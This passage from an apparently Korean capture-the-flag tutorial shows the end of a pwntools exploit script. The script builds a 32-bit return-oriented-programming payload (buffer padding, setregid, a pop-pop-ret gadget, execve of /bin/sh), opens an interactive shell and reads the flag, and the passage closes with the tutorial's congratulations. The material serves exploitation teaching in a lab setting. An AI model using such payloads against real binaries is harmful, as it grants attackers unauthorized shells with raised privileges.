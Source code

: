 ```python
BINSH_ADDR    = LIBC_BASE + BINSH_OFFSET

POP_POP_RET   = 0x08049422

PAYLOAD = "A" * 44 + p32(SETREGID_ADDR) + p32(POP_POP_RET) + p32(1002) + \
  p32(1002) + p32(EXECVE_ADDR) + "CCCC" + p32(BINSH_ADDR) + p32(0) + p32(0)
p.sendline(PAYLOAD)
p.recv()

p.interactive()
```

실행을 하다보면 아래와 같이 interactive 모드로 들어가서 shell에서 명령을 입력할 수 있게 됩니다. 여기서 flag를 읽어보면 내용을 확인할 수 있습니다.

```sh
[*] Switching to interactive mode
cat flag
This is my flag
```

축하드립니다. 이제 ROP를 이용해서 flag를 읽어보는 payload를 완성한 것입니다! 이것말고도 pwntools에서는 exploit을 훨씬 단순하게 만들어 주는 좋은 기능을 많이 제공하고 있습니다. 여러분이 충분히 야심차다면 다양한 기능을 테스트해서 보단 간결한 exploit을 작성해보시기 바랍니다.